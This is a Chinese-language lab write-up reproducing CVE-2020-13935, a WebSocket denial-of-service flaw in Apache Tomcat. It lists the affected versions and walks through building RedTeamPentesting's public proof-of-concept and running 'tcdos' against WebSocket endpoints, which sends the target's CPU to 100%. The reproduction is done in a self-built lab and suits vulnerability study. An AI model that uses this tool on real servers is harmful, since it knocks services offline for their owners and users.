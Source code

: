 # 0x00 软件介绍
Tomcat：一款流行的java web应用服务器

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：apache-tomcat-8.5.56

# 0x02 环境搭建
靶机系统：2008_r2_standard_zh-chs

下载并解压apache-tomcat-8.5.56  
进入目录bin并执行startup.bat，出现“Server startup in xx ms”，通常表示启动成功，如下图  
![image](./a.png)  
访问[http://172.16.35.133:8080/](http://172.16.35.133:8080/)，确认服务成功启动，如下图  
![image](./b.png)  
接下来需要操作如下8个步骤：  
1、JDK安装配置  
2、Apache Tomcat安装配置  
3、Eclipse IDE for Java EE安装配置  
4、Tomcat运行时环境在Eclipse IDE for Java EE中配置  
5、Eclipse中建立动态web项目  
6、创建"Hello World" Servlet和JSP视图  
7、在Eclipse中运行动态web项目  
8、导出为WAR文件并部署到Tomcat中  
写好的websocket应用见文件WebSocketServlet.java，部署好的websocket应用见下图  
![image](./a0.png)

# 0x03 利用条件
Tomcat上部署了WebSocket应用

# 0x04 影响版本
9.0.0.M1 <= apache tomcat <= 9.0.36  
10.0.0-M1 <= apache tomcat <= 10.0.0-M6  
8.5.0 <= apache tomcat <= 8.5.56  
7.0.27 <= apache tomcat <= 7.0.104  

# 0x05 漏洞复现
攻击系统：Kali-Linux-2020.2-vmware-amd64  

复现针对自己编写的websocket应用：  
在火狐浏览器的开发者工具的控制台中依次执行WebSocketClient.js中的javascript代码，当执行完“client.connect();”，eclipse中tomcat控制台出现“onOpen::0”时，表示websocket应用部署成功，如下图  
![image](./a1.png)  
导出为DemoTwo.war并部署到tomcat中  
执行如下命令：  
git clone https://github.com/RedTeamPentesting/CVE-2020-13935  
cd CVE-2020-13935  
go build  
./tcdos ws://172.16.35.133:8080/DemoTwo/endpoint  
执行后靶机系统CPU骤升到100%，如下图  
![image](./a2.png)  
此时，tomcat管理控制台显示如下  
![image](./a3.png)

复现针对自带的websocket应用：  
首先访问[http://172.16.35.133:8080/examples/websocket/](http://172.16.35.133:8080/examples/websocket/)确认存在WebSocket应用，如下图  
![image](./f.png)  
执行如下命令：  
./tcdos ws://172.16.35.133:8080/examples/websocket/echoProgrammatic  
执行后靶机系统CPU骤升到100%，如下图  
![image](./c.png)

# 0x06 踩坑记录
坑1：  
执行go build后，可能会报如下错误  
![image](./d.png)  
此时需要一些合理上网方式，成功执行后如下图  
![image](./e.png)  

# 0x07 参考链接
https://www.anquanke.com/post/id/221861  
https://github.com/RedTeamPentesting/CVE-2020-13935  
https://www.pegaxchange.com/2018/01/28/websocket-server-java/  
https://www.pegaxchange.com/2016/09/02/java-eclipse-tomcat/  
https://www.cnblogs.com/xdp-gacl/p/5193279.html  
https://blog.redteam-pentesting.de/2020/websocket-vulnerability-tomcat/
